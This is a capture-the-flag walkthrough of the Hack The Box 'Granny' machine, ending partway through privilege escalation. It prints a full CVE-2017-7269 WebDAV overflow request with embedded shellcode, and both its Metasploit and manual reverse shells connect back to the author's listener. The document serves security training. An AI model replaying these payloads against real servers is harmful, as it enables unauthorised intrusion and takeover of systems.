


# Machine Info
**IP**: 10.10.10.14

**OS**: Windows

**Difficulty**: Easy

# Passive Enumeration:

## **nmap**
```
The open services were enumerated using nmap as below to start the assessment.
$ nmap -T4 -p- 10.10.10.14                      
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-04 22:26 EDT
Nmap scan report for 10.10.10.14
Host is up (0.027s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 102.70 seconds

$ sudo nmap -T4 -p80 -A -O 10.10.10.14           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-04 22:30 EDT
Nmap scan report for 10.10.10.14
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sat, 05 Jun 2021 02:35:13 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device
Running (JUST GUESSING): Microsoft Windows 2000|XP|2003|PocketPC/CE (94%), BT embedded (85%)
OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp1:professional cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_ce:5.0.1400 cpe:/h:btvision:btvision%2b_box
Aggressive OS guesses: Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (94%), Microsoft Windows Server 2003 SP1 (93%), Microsoft Windows Server 2003 SP1 or SP2 (93%), Microsoft Windows Server 2003 SP2 (93%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (90%), Microsoft Windows 2000 SP4 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   73.44 ms 10.10.16.1
2   73.42 ms 10.10.10.14

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.33 seconds
```

## **Enumerating port 80**
Visiting the website on a browser, we find a banner saying the page is under construction. 



### **Wappalyzer and Whatweb**

The website is running on an IIS 6.0 server and using .net framework.



The same is confirmed using whatweb as well.
```
$ whatweb http://10.10.10.14/                   
http://10.10.10.14/ [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.14], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

### **FFuF**
Performing directory traversal using FFuF reveals three  directories, however they lead nowhere.

```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -u http://10.10.10.14/FUZZ                                                                        2 ⚙

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.14/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

/aspnet_client/         [Status: 403, Size: 218, Words: 14, Lines: 2]
/images/                [Status: 403, Size: 218, Words: 14, Lines: 2]
# Look at the result codes in the headers - 403 likely mean the dir exists, 404  means not. It takes an ISAPI filter for IIS to return 404's for 403s. [Status: 200, Size: 1433, Words: 131, Lines: 40]
/postinfo.html          [Status: 200, Size: 2440, Words: 327, Lines: 58]
/_private               [Status: 403, Size: 1529, Words: 173, Lines: 30]
/_vti_log/              [Status: 403, Size: 1529, Words: 173, Lines: 30]
/_vti_txt               [Status: 403, Size: 1529, Words: 173, Lines: 30]
/_vti_bin/              [Status: 403, Size: 218, Words: 14, Lines: 2]
/_vti_bin/fpcount.exe?Page=default.asp|Image=3 [Status: 200, Size: 131, Words: 1, Lines: 2]
/_vti_bin/shtml.exe/qwertyuiop [Status: 200, Size: 106, Words: 11, Lines: 1]
/_vti_bin/shtml.dll     [Status: 200, Size: 96, Words: 11, Lines: 1]
/_vti_bin/shtml.dll/asdfghjkl [Status: 200, Size: 105, Words: 11, Lines: 1]
:: Progress: [211/211] :: Job [1/1] :: 283 req/sec :: Duration: [0:00:09] :: Errors: 1 ::

```

### **nikto**
Finally, running a nikto scan against the website throws up the following possible vulnerabilities.
```
$ nikto -h http://10.10.10.14/                    
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.14
+ Target Hostname:    10.10.10.14
+ Target Port:        80
+ Start Time:         2021-06-04 22:37:34 (GMT-4)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 1.1.4322
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (COPY MKCOL UNLOCK PROPPATCH SEARCH PROPFIND LOCK listed as allowed)
+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://10.10.10.14/
+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.
+ 8015 requests: 0 error(s) and 27 item(s) reported on remote host
+ End Time:           2021-06-04 22:53:46 (GMT-4) (972 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
### **Davtest**
WebDAV, or Web-Based Distributed Authoring and Versioning, seems interesting. It is used to manage files on remote servers and we can see that various methods are allowed. Enumerating it further using davtest, however, reveals that we do not have access to interact with the directory in any way.

```
$ davtest -url http://10.10.10.14/               

********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.14
********************************************************
NOTE	Random string for this session: oq0MH4B
********************************************************
 Creating directory
MKCOL		FAIL
********************************************************
 Sending test files
PUT	php	FAIL
PUT	asp	FAIL
PUT	cfm	FAIL
PUT	txt	FAIL
PUT	jhtml	FAIL
PUT	jsp	FAIL
PUT	pl	FAIL
PUT	html	FAIL
PUT	shtml	FAIL
PUT	aspx	FAIL
PUT	cgi	FAIL

********************************************************
/usr/bin/davtest Summary:
```
# Vulnerability:
From the passive enumeration, WebDAV seems the most likely way to gain a foothold on the target. 

Searching for WebDAV and IIS 6 related vulnerabilities brings up a metasploit module for [Microsoft IIS WebDav ScStoragePathFromUrl Overflow](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/)  and an [exploitDB script](https://www.exploit-db.com/exploits/41738). Searchsploit query for webdav and IIS 6 also identifies the same vulnerability.
```
$ searchsploit webdav IIS 6 
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                         |  Path
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft IIS - WebDAV Write Access Code Execution (Metasploit)                                                                        | windows/remote/16471.rb
Microsoft IIS 5.0 (Windows XP/2000/NT 4.0) - WebDAV 'ntdll.dll' Remote Buffer Overflow (1)                                             | windows/remote/22365.pl
Microsoft IIS 5.0 (Windows XP/2000/NT 4.0) - WebDAV 'ntdll.dll' Remote Buffer Overflow (2)                                             | windows/remote/22366.c
Microsoft IIS 5.0 (Windows XP/2000/NT 4.0) - WebDAV 'ntdll.dll' Remote Buffer Overflow (3)                                             | windows/remote/22367.txt
Microsoft IIS 5.0 (Windows XP/2000/NT 4.0) - WebDAV 'ntdll.dll' Remote Buffer Overflow (4)                                             | windows/remote/22368.txt
Microsoft IIS 5.0 - WebDAV 'ntdll.dll' Path Overflow (MS03-007) (Metasploit)                                                           | windows/remote/16470.rb
Microsoft IIS 5.0 - WebDAV Denial of Service                                                                                           | windows/dos/20664.pl
Microsoft IIS 5.0 - WebDAV PROPFIND / SEARCH Method Denial of Service                                                                  | windows/dos/22670.c
Microsoft IIS 5.1 - WebDAV HTTP Request Source Code Disclosure                                                                         | windows/remote/26230.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                                               | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass                                                                                | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                                            | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                                            | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                                        | windows/remote/8754.patch
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

# Exploitation using Metasploit:
Launching msfconsole, we quickly set up the options and trigger the exploit to get a shell with NETWORK user privilege.
```
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.16.173:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.16.173:4444 -> 10.10.10.14:1037) at 2021-06-05 11:20:03 -0400

meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```
Although a shell is received, we are denied access to the UID details. The reason behind this is that the process created by the exploit is unstable and we need to migrate to a different process with the same access level. 

Using ps, we can see that the "w3wp.exe" process is running with the same privilege level and migrating to the process ID makes the shell stable.

```
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 180   1076  cidaemon.exe
 224   1076  cidaemon.exe
 276   4     smss.exe
 324   276   csrss.exe
 328   584   davcdata.exe
 348   276   winlogon.exe
 396   348   services.exe
 408   348   lsass.exe
 584   396   svchost.exe
 680   396   svchost.exe
 740   396   svchost.exe
 772   396   svchost.exe
 800   396   svchost.exe
 936   396   spoolsv.exe
 964   396   msdtc.exe
 1076  396   cisvc.exe
 1120  396   svchost.exe
 1180  396   inetinfo.exe
 1216  396   svchost.exe
 1328  396   VGAuthService.exe
 1408  396   vmtoolsd.exe
 1456  396   svchost.exe
 1636  396   alg.exe
 1668  396   svchost.exe
 1764  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1880  1456  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 1916  396   dllhost.exe
 2268  348   logon.scr
 2300  584   wmiprvse.exe
 2456  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 2636  1456  w3wp.exe
 3064  1880  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 4056  1076  cidaemon.exe

meterpreter > migrate 1880
[*] Migrating from 3064 to 1880...
[*] Migration completed successfully.
meterpreter > getuid 
Server username: NT AUTHORITY\NETWORK SERVICE
```

## **Privilege Escalation**

With the current privilege level, we cannot access the user or administrator details.
```
meterpreter > cd Documents\ and\ Settings 
meterpreter > ls
Listing: c:\Documents and Settings
==================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2017-04-12 10:12:15 -0400  Administrator
40777/rwxrwxrwx  0     dir   2017-04-12 09:42:38 -0400  All Users
40777/rwxrwxrwx  0     dir   2017-04-12 09:42:38 -0400  Default User
40777/rwxrwxrwx  0     dir   2017-04-12 10:32:01 -0400  Harry
40777/rwxrwxrwx  0     dir   2017-04-12 10:08:32 -0400  LocalService
40777/rwxrwxrwx  0     dir   2017-04-12 10:08:31 -0400  NetworkService

meterpreter > cd Harry 
[-] stdapi_fs_chdir: Operation failed: Access is denied.
```
To elevate privilege, we need to check for local vulnerabilities that can be exploited. The metasploit local_exploit_suggester module comes in handy in such scenarios. All we need to do is keep the open session in the background and run the module with the "session" option set to the session id.

```
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > exploit 

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 38 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
The "exploit/windows/local/ms10_015_kitrap0d", "exploit/windows/local/ms14_058_track_popup_menu", and "exploit/windows/local/ppr_flatten_rec" modules provide a shell with administrator privilege.

# Manual Exploitation

The exploitDB script that we found during the vulnerability search, both on the web and searchsploit, trigger the calculator application on execution and thus, are not particularly useful. I searched for a modified script that would give us a shell and found [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell). Downloading the script and running it sends a request to the webserver.

```
$ python exploit.py 10.10.10.14 80 10.10.16.173 4444
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>

```
And we receive a shell on our netcat listener.

```
$ nc -lvp 4444                                  
listening on [any] 4444 ...
10.10.10.14: inverse host lookup failed: Unknown host
connect to [10.10.16.173] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```
## **Privilege Escalation**
Like metasploit escalation, we need to find out vulnerabilities that can be exploited. The first step of this process is to find the system information and determine the OS version and patches and hotfixes applied to the system.

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 1 Minutes, 45 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 797 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,331 MB
Page File: In Use:         139 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```
Saving the information to a text file, we run the [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to get the list of potential vulnerabilities.

```
$ ./windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2021-06-08-mssb.xls
[*] done

$ ./windows-exploit-suggester.py --database 2021-06-08-mssb.xls --systeminfo systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2003 SP2 32-bit'
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*] 
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*] 
[E] MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important
[*]   http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC
[*] 
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*] 
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-062: Vulnerability in Message Queuing Service Could Allow Elevation of Privilege (2993254) - Important
[*]   http://www.exploit-db.com/exploits/34112/ -- Microsoft Windows XP SP3 MQAC.sys - Arbitrary Write Privilege Escalation, PoC
[*]   http://www.exploit-db.com/exploits/34982/ -- Microsoft Bluetooth Personal Area Networking (BthPan.sys) Privilege Escalation
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important
[*]   https://www.exploit-db.com/exploits/39525/ -- Microsoft Windows 7 x64 - afd.sys Privilege Escalation (MS14-040), PoC
[*]   https://www.exploit-db.com/exploits/39446/ -- Microsoft Windows - afd.sys Dangling Pointer Privilege Escalation (MS14-040), PoC
[*] 
[E] MS14-035: Cumulative Security Update for Internet Explorer (2969262) - Critical
[E] MS14-029: Security Update for Internet Explorer (2962482) - Critical
[*]   http://www.exploit-db.com/exploits/34458/
[*] 
[E] MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important
[*]   http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC
[*] 
[M] MS14-012: Cumulative Security Update for Internet Explorer (2925418) - Critical
[M] MS14-009: Vulnerabilities in .NET Framework Could Allow Elevation of Privilege (2916607) - Important
[E] MS14-002: Vulnerability in Windows Kernel Could Allow Elevation of Privilege (2914368) - Important
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-097: Cumulative Security Update for Internet Explorer (2898785) - Critical
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[M] MS13-080: Cumulative Security Update for Internet Explorer (2879017) - Critical
[M] MS13-071: Vulnerability in Windows Theme File Could Allow Remote Code Execution (2864063) - Important
[M] MS13-069: Cumulative Security Update for Internet Explorer (2870699) - Critical
[M] MS13-059: Cumulative Security Update for Internet Explorer (2862772) - Critical
[M] MS13-055: Cumulative Security Update for Internet Explorer (2846071) - Critical
[M] MS13-053: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (2850851) - Critical
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[M] MS11-080: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege (2592799) - Important
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[M] MS09-065: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (969947) - Critical
[M] MS09-053: Vulnerabilities in FTP Service for Internet Information Services Could Allow Remote Code Execution (975254) - Important
[M] MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
[M] MS09-004: Vulnerability in Microsoft SQL Server Could Allow Remote Code Execution (959420) - Important
[M] MS09-002: Cumulative Security Update for Internet Explorer (961260) (961260) - Critical
[M] MS09-001: Vulnerabilities in SMB Could Allow Remote Code Execution (958687) - Critical
[M] MS08-078: Security Update for Internet Explorer (960714) - Critical
[*] done
```
From this long list, I am excluding all metasploit entries, the ones for Internet Explorer and .NET, and considering only the ones that allow privilege escalation. 

Going through the list one-by-one, I could not get any of the exploits to work.

```
C:\>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 

```
The user has ImpersonatePrivilege enabled and we can use churrasco to exploit the privilege as the OS is Windows 2003. First we start a SMB share with the [churrasco.exe](https://github.com/Re4son/Churrasco/) and nc.exe.

```
$ smbserver.py share .            
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

